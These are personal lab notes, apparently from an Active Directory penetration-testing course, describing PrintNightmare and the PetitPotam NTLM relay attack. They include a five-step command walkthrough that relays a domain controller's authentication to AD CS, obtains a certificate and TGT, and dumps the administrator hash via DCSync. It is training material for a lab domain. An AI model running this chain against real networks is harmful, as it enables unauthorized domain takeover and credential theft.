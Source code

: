 PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the PrintSpooler service that runs on all Windows operating systems  

Many exploits have been written based on these vulnerabilities that allow for privilege escalation and RCE  

You can use this (https://github.com/cube0x0/CVE-2021-1675.git) to exploit this in AD, but it requires a specific version of Impacket to be installed. I don't feel like exploring this right now, moving on...  

<br />

## PetitPotam

PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021  

The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft's Encrypted File System Remote Protocol (MS-EFSRPC)  

This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use  

In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.  

### The attack

1. Start NTLM relay:
```sh
do ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

2. Run PetitPotam.py (in another window):
```sh
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```

3. Get the Base64 encoded Certificate for DC01
```sh
# In the ntlm relay window we should see something like this:
# [*] Base64 certificate of user ACADEMY-EA-DC01$: 
# MIIStQIBAzCCEn8GCSqGSIb3DQEHAaCCEnAEghJsMIISaDCCCJ8...
```

4. Requesting a TGT using gettgtpkinit.py
```sh
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

5. Use DC TGT to DCSync
```sh
export KRB5CCNAME=dc01.ccache
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
